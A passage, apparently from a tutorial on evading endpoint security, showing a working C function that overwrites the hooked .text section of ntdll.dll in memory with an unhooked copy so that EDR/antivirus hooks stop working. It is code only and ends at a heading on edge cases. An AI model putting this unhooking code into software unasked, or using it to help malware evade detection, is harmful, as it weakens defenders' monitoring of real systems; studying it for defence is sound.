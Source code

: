 ```
		return FALSE;


	PVOID		pLocalNtdllTxt	= NULL,	// local hooked text section base address
			    pRemoteNtdllTxt  = NULL; // the unhooked text section base address
	SIZE_T		sNtdllTxtSize	= NULL; // the size of the text section


	// getting the text section
	PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);

	for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {

		// the same as if( strcmp(pSectionHeader[i].Name, ".text") == 0 )
		if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {

			pLocalNtdllTxt	= (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
#ifdef MAP_NTDLL
			pRemoteNtdllTxt = (PVOID)((ULONG_PTR)pUnhookedNtdll + pSectionHeader[i].VirtualAddress);
#endif
#ifdef READ_NTDLL
			pRemoteNtdllTxt = (PVOID)((ULONG_PTR)pUnhookedNtdll + 1024);
#endif
			sNtdllTxtSize	= pSectionHeader[i].Misc.VirtualSize;
			break;
		}
	}


	// small check to verify that all the required information is retrieved
	if (!pLocalNtdllTxt || !pRemoteNtdllTxt || !sNtdllTxtSize)
		return FALSE;


	DWORD dwOldProtection = NULL;

	// making the text section writable and executable
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
		printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// copying the new text section
	memcpy(pLocalNtdllTxt, pRemoteNtdllTxt, sNtdllTxtSize);

	// rrestoring the old memory protection
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, dwOldProtection, &dwOldProtection)) {
		printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}


	return TRUE;
}

```
### **Handling Edge Cases**
